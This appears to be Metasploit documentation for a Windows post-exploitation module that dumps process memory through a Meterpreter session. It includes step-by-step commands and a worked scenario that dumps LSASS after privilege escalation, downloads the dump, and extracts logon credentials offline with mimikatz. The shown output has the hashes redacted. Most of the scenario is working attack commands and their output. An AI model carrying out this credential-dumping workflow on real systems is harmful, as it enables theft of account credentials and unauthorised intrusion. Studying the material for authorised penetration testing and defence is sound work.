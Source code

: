 ## Vulnerable Application

This module dumps the memory for any process on the system and retrieves it for later analysis.
The user must have sufficient permissions to read the memory of that process. Low-privilege users
should be able to read any of their own processes. High-privilege users should be able to read
any unprotected process.

This module only works on a Meterpreter session on Windows.

## Verification Steps

  1. Start `msfconsole`
  1. Get meterpreter session on a Windows host
  1. Do: `use post/windows/gather/memory_dump`
  1. Do: `set SESSION <session id>`
  1. Do: `set PID <process id>` or `set PROCESS_NAME <process name>`
  1. Do: `set DUMP_PATH <path on remote system>`
  1. Do: `set DUMP_TYPE <standard|full>`
  1. Do: `run`
  1. You should be able to see that the module has dumped the process to a file and starts downloading it.
  1. You should be able to see, whether the module succeeds or fails, that the file on the remote system has been deleted.

## Options

### DUMP_PATH

The path that the memory dump will be temporarily stored at. This file is then
downloaded and deleted at the end of the run. This file should be in a writable
location, and should not already exist. If not specified, the dump is written
with a random filename in `%TEMP%`.

### PID

The ID of the process to dump. To find the PID, in your Meterpreter session,
type `ps`. To find a process by name, type `ps | <process name>`.

### PROCESS_NAME

The name of the process(es) to dump. This will dump memory for all processes
with this name.

### DUMP_TYPE

Two options are provided for creating a memory dump:

- Full

This option retrieves the entire memory address space, including all DLLs, EXEs
and memory mapped files. For dumping LSASS for offline analysis, this option
seems to be preferable. However, the file size can be significantly larger than
the Standard option.

- Standard

This option retrieves most data from the process, with the exception of DLLs,
EXEs and memory mapped files. As a result, some analysis tools may have trouble
with automated analysis, however any sensitive information such as passwords
which are stored in memory should be part of this dump. This data could
possibly be retrieved using a tool such as `strings`. The file size should be
significantly smaller than the Full option.

## Scenarios

### Dumping lsass

Retrieving lsass (after getsystem)

```
meterpreter > ps | lsass
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User                 Path
 ---  ----  ----       ----  -------  ----                 ----
 700  536   lsass.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\lsass.exe

meterpreter > 
Background session 4? [y/N]  
msf6 post(windows/gather/memory_dump) > set pid 700
pid => 700
msf6 post(windows/gather/memory_dump) > run

[*] Running module against DemoPC
[*] Dumping memory for lsass.exe
[*] Downloading minidump (5.31 MiB)
[+] Memory dump stored at /home/user/.msf4/loot/20210505174955_default_192.168.XXX.XXX_windows.process._647943.bin
[*] Deleting minidump from disk
[*] Post module execution completed
```

Then in mimikatz (offline):

```
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::minidump c:\Users\user\desktop\20210505175519_default_192.168.XXX.XXX_windows.process._162777.bin
Switch to MINIDUMP : 'c:\Users\user\desktop\20210505175519_default_192.168.XXX.XXX_windows.process._162777.bin'

mimikatz # sekurlsa::logonPasswords
Opening : 'c:\Users\user\desktop\20210505175519_default_192.168.XXX.XXX_windows.process._162777.bin' file for minidump...

Authentication Id : 0 ; 280858 (00000000:0004491a)
Session           : RemoteInteractive from 2
User Name         : user
Domain            : DemoPC
Logon Server      : DemoPC
Logon Time        : 5/05/2021 3:15:10 PM
SID               : S-1-5-21-920577323-754201681-977916534-1001
        msv :
         [00000003] Primary
         * Username : user
         * Domain   : DemoPC
         * NTLM     : (redacted, but verified)
         * SHA1     : (redacted)
        tspkg :
        wdigest :
         * Username : user
         * Domain   : DemoPC
         * Password : (null)
        kerberos :
         * Username : user
         * Domain   : DemoPC
         * Password : (null)
        ssp :
        credman :
        cloudap :
```
